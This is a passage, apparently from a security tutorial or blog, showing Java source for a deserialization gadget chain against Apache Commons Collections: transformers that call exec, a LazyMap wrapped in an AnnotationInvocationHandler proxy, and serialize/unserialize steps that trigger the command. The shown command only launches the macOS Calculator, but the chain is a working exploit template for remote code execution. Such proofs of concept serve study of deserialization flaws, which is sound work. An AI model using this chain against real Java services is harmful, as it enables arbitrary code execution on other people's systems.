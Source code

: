 ```java  
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
    
        HashMap<Object, Object> map = new HashMap<>();    
        Map<Object,Object> lazymap = LazyMap.decorate(map,chainedTransformer);    
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");    
        Constructor AnnotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);    
        AnnotationInvocationHandlerConstructor.setAccessible(true);    
        InvocationHandler h = (InvocationHandler) AnnotationInvocationHandlerConstructor.newInstance(Target.class,lazymap);    
    
        Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);    
    
        Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,proxyMap);    
    
        serialize(o);    
        unserialize("ser.bin");    
    
    }    
    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151459198.png)
  
  